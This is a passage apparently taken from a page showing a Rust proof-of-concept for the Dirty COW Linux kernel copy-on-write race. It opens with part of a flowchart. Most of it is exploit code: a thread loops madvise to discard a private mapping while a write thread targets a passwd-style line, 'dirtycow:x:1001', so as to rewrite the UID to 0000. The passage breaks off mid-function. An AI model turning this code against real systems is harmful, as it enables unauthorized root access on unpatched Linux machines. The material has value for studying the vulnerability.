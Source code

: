 ```sh
          |
          v
+---------------------+
|                     |
| Write '0000' in     |
| Memory Copy         |
+---------------------+
          |
          v
+---------------------+
|                     |
| Discard Private Copy|
| and Revert to       |
| Original Memory     |
+---------------------+
```


```Rust
use libc::{
    __errno_location, c_void, lseek, madvise, mmap, munmap, off_t, read, strerror, MADV_DONTNEED,
    MAP_FAILED, MAP_PRIVATE, PROT_READ, SEEK_SET,
};
use std::ffi::CStr;
use std::fs::{File, OpenOptions};
use std::io;
use std::os::unix::io::AsRawFd;
use std::ptr;
use std::slice;
use std::thread;

// Constants for file name, target string, and new string to overwrite `TARGET_STRING`
const FILE_NAME: &str = "etc.txt";
const TARGET_STRING: &str = "dirtycow:x:1001";
const NEW_CONTENT: &[u8] = b"dirtycow:x:0000";

// Function for the madvise thread
fn perform_madvise(file_size: usize) {
    // Memory map the file
    let mapped_memory_ptr = memory_map_file(FILE_NAME);
    if mapped_memory_ptr == MAP_FAILED as *mut u8 {
        panic!("Error mapping file to memory");
    }
    // Continuous loop for the madvise thread
    loop {
        // Call madvise to discard the private copy
        if unsafe { madvise(mapped_memory_ptr as *mut c_void, file_size, MADV_DONTNEED) } != 0 {
            eprintln!("madvise failed: {}", std::io::Error::last_os_error());
        }

        // Read and print memory content
        if let Ok(_) = read_memory_content(mapped_memory_ptr, 3290) {
            println!("Madvising - Content: `dirtycow:x:1001`");
        }
    }
}

// Function for the write thread responsible for modifying UID value in memory copy
unsafe fn perform_write_operation() -> io::Result<()> {
    // Memory map the file
    let mapped_memory = memory_map_file(FILE_NAME);
    if mapped_memory == MAP_FAILED as *mut u8 {
        panic!("Error mapping file to memory");
    }
```